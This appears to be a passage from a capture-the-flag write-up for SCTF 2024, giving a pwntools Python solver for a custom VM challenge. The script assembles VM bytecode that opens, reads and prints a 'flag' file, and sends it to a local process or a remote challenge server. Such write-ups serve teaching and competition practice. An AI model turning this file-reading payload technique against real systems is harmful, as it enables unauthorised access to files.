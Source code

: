 ```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
EXE = './vmcode'
LITERAL = lambda imm, word: pack(imm, word) if isinstance(imm, int) else imm

def assemble(code: bytearray, func: int, imm: int | bytes=None):
    if func in (0, 5, 11) and imm is None:
        raise ValueError(f"Immediate value needed for func{func}")
    code.append(func + 0x21)
    if func == 0 or func == 11:
        code.extend(LITERAL(imm, 16))
    elif func == 5:
        code.extend(LITERAL(imm, 32))

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('1.95.68.23', 58924)
    vmcode = bytearray()
    # fd = open("flag", 0, 0)
    assemble(vmcode, 5, b'flag')
    assemble(vmcode, 16)
    assemble(vmcode, 5, 0)
    assemble(vmcode, 5, 0)
    assemble(vmcode, 3)
    assemble(vmcode, 5, 2)
    assemble(vmcode, 15)
    # readin = read(fd, sp + 0x100, 0x50)
    assemble(vmcode, 16)
    assemble(vmcode, 5, 0x100)
    assemble(vmcode, 2)
    assemble(vmcode, 5, 0x50)
    assemble(vmcode, 3)
    assemble(vmcode, 5, 0)
    assemble(vmcode, 15)
    # write(1, sp + 0x100, readin)
    assemble(vmcode, 16)
    assemble(vmcode, 5, 0x100)
    assemble(vmcode, 2)
    assemble(vmcode, 5, 1)
    assemble(vmcode, 5, 1)
    assemble(vmcode, 15)
    # exit
    assemble(vmcode, 18)
    vmcode = bytes(vmcode)
    info(f"Generated {len(vmcode)}-bytes vmcode {vmcode}")
    sh.send(bytes(vmcode))

    sh.recvuntil(b"SCTF{")
    flag = b"SCTF{" + sh.recvuntil(b"}")
    success(f"FLAG is: {flag.decode()}")
    sh.close()
```

{% note default fa-flag %}
![flag](/assets/sctf2024/vmFlag.png)
{% endnote %}

